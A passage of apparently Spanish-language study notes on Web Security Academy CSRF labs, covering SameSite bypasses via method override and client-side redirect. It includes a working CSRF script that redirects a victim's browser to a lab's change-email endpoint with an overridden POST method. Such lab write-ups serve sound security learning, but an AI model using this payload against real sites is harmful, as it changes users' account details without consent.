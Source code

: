 > Con la funciónalidad method override podemos bypassear la restricción.

![](/img2/Pasted%20image%2020250801190319.png)

- Injection

```html
<script>
location="https://0a9600d40372704980ec035a00c90044.web-security-academy.net/my-account/change-email?email=csrf@csrf.com&_method=POST"
</script>
```

## Bypass de SameSite Strict con redirección cliente || SameSite Strict bypass via client-side redirect

![](/img2/Pasted%20image%2020250801221713.png)

![](/img2/Pasted%20image%2020250801230844.png)

> La petición nos permite cambiar el método a GET, sin embargo no podemos realizar el CSRF debido a que el parámetro 'SameSite' está en Strict.
